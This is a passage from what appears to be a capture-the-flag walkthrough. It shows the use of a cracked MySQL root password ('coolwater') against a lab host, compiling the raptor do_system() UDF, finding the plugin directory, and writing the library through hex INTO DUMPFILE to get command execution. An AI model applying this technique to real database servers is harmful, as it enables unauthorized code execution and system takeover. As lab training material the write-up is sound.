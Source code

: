 ```bash
Progress..: 281260/3627099 (7.75%)
Running...: --:--:--:--
Estimated.: 00:00:00:01

Started: Sun Nov  9 14:07:14 2014
Stopped: Sun Nov  9 14:07:14 2014
```

The password for the MySQL `root` user is therefore `coolwater`:

```bash
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'show grants;'
Grants for root@192.168.2.100
GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.2.100' IDENTIFIED BY PASSWORD '*ECB01D78C2FBEE997EDA584C647183FD99C115FD' WITH GRANT OPTION
```

### loading the UDF remotely
With a full dba level account, it was time to get the UDF loaded. My initial approach for this failed pretty badly to start off with.

I grabbed a copy of a `do_system()` UDF that I have previously used successfully from [here](http://www.0xdeadbeef.info/exploits/raptor_udf.c), called `raptor_udf.c`. Considering the host operating system was 64bit, and my attacking machine was 32bit, I opted to compile the UDF on the `web` host. Compilation was done on the `web` host with:

```bash
gcc -g -c raptor_udf.c -fPIC
gcc -g -shared -Wl,--soname,raptor_udf.so -o raptor_udf.so raptor_udf.o -lc
```

This resulted in a raptor_udf.so file, which was ready to be uploaded to the server. Now, the word `uploading` sounds trivial, however its not. I need to know *where* to first. For this, I enumerate the MySQL `plugin_dir`:

```bash
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'select @@plugin_dir;'
@@plugin_dir
/usr/lib/mysql/plugin/
```

So this means I need to write the udf to `/usr/lib/mysql/plugin/raptor_udf.so`. Fair enough. But how do I write this? Well there are many approaches to this. One is to use ` --local-infile=1` as a flag on the local mysqlclient (needs to be allowed server side too), to actually upload the **local** file to wherever (a table in our case) and then to a file via `INTO DUMPFILE`. The other option is to simply convert the content to hex, and run `SELECT 0x` + `<CONTENT AS HEX>` + `INTO DUMPFILE /usr/lib/mysql/plugin/raptor_udf.so`.

I opted for the content encoding as hex and generated a `xxd` output of the compiled `raptor_udf.so`. With this uploaded, I came to the section where the function was to be created, and this is where I got stuck. I would simply get a error along the likes of `Undefined Symbol "do_system" in raptor_udf.so`. :\

Eventually, I opted to find a precompiled 64bit `.so` to upload, and found one in the [sqlmap repository]( https://github.com/sqlmapproject/sqlmap/blob/master/udf/mysql/linux/64/lib_mysqludf_sys.so). I downloaded this and converted it to hex using `xxd`. I then created the following file with the mysql commands to run on the `web` host from my attacking machine:

